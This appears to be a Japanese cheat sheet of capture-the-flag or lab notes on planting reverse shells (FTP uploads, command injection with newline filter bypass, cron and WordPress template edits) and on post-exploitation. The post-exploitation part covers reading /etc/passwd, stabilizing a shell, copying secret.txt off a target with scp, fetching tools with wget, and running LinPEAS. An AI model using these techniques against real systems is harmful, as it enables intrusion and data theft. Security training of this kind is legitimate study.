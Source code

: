 リバースシェルを仕掛ける場所は問題を解いて勘を養うしかないと思っている。
- FTPでファイルをアップロード後、`assets`や`upload`といったディレクトリにアクセスして呼び出す
    - FTP側で`chmod`使って実行できるようにしておく
- OSコマンドインジェクションで仕掛ける。
    - ブラックリスト化でフィルタリングされていることが多いのでコマンド名に改行を挟んだりして迂回する
- cornで指定されているジョブの対象になっているファイルを書き換える/置き換える
- WordPressといったCMSのテンプレートを編集する。404ページやヘッダー部分にリバースシェルを仕込んで該当ページにアクセスする
- Metasploitを使う


## 攻略対象のマシンに入ったら
- `whoami` ... ユーザー名を確認する
- `id` ... ユーザーのグループを確認する
    - 自分以外のグループに所属しているかを確認することが重要
- `cat /etc/passwd`でユーザーのー覧を確認する
- リバースシェルだと画面が安定しないので以下を実行する
    1. `export TERM=xterm`
    2. `python3 -c "import pty;pty.spawn('/bin/bash');"`
    3. Ctrl-Zを押す
    4. `stty raw -echo; fg`

### ファイルの受け渡し
`wget`か`scp`を使う。
`wget`の場合
```
# 待ち受け側
python3 -m http.server 3000
```

```
# 取得側
wget http://$LOCAL_MACHINE_IP:$LPORT/file/to/get
```

`scp`の例
```
# リモートからローカルへコピー
scp usr@$MACHINE_IP:/home/usr/secret.txt ./

# ローカルからリモートへコピー
scp ./exploit user@$MACHINE_IP:/home/user/ 
```
- `-r` ... ディレクトリを再帰的にコピー
- `-C` ... 圧縮して通信
- `-P` ... ポート番号を指定　
- `-i` ... 鍵ファイルを指定


### LinPEASとwinPEAS
攻略対象のマシンに入って何をすべきかわからないうちは[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)や[winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)を使うのがいい。自分がいるディレクトリで書き込みが許されていないというパターンがあるので、あらかじめ`/tmp`に移動してからダウンロードする。
